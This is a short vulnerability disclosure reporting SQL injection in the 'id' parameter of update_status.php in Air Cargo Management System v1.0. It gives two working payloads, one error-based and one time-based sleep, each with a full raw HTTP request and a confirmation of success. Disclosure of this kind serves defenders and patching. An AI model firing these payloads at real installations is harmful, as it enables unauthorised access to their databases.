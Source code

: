 # Air Cargo Management System v1.0 has SQL injection

BUG_Author: 133233

Website source address:https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability File: /acms/admin/transactions/update_status.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' and (select 2 from(select count(*),concat(0x31323334,(select (elt(666=666,1))),0x61626364,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- b

```
GET /acms/admin/transactions/update_status.php?id=1%27%20and%20(select%202%20from(select%20count(*),concat(0x31323334,(select%20(elt(666=666,1))),0x61626364,floor(rand(0)*2))x%20from%20information_schema.plugins%20group%20by%20x)a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=are40ekvnvt703bn5uuua9d5qv
Connection: close
```

Injection success based on errors

![image](https://github.com/333123www/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 2 from (select(sleep(10)))a)-- b

```
GET /acms/admin/transactions/update_status.php?id=1%27%20and%20(select%202%20from%20(select(sleep(10)))a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=are40ekvnvt703bn5uuua9d5qv
Connection: close
```

Server response time is 10 seconds

![image](https://github.com/333123www/bug_report/blob/main/sql2.png)
